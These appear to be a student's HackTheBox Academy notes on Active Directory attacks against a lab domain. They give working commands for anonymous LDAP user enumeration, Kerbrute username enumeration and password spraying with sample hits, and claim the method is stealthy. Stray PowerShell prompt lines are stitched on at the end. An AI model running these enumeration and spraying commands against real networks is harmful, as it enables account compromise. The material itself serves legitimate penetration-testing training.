 </aside>

### **Using ldapsearch**

- `dollarboysushil@htb[/htb]$ ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "`

it is easier to use windapsearch

### **Using windapsearch**

- `./windapsearch.py --dc-ip 172.16.5.5 -u "" -U`

<aside>
3️⃣ **Enumerating Users with Kerbrute ⭐**

</aside>

if we have no access at all from our position in the internal network, we can use `Kerbrute` to enumerate valid AD accounts and for password spraying.
this tool uses Kerberos Per-Authentication, which is much faster and stealthier

this method does not generate Windows event ID or logon failure.

The tool sends TGT requests to the domain controller without Kerberos Pre-Authentication to perform username enumeration. If the KDC responds with the error `PRINCIPAL UNKNOWN`, the username is invalid.

- `kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt`

<aside>
4️⃣ **Credentialed Enumeration to Build our User List**

</aside>

Once we get valid credential, we can use various tools to build get the user from AD

- `sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users` → this will give the list of users

# **Spray Responsibly**

## **Internal Password Spraying - from Linux**

<aside>
1️⃣ **Using Kerbrute for the Attack ⭐**

</aside>

```
dollarboysushil@htb[/htb]$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:57:12 >  Using KDC(s):
2022/02/17 22:57:12 >  	172.16.5.5:88

2022/02/17 22:57:12 >  [+] VALID LOGIN:	 sgage@inlanefreight.local:Welcome1
2022/02/17 22:57:12 >  Done! Tested 57 logins (1 successes) in 0.172 seconds
```


[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist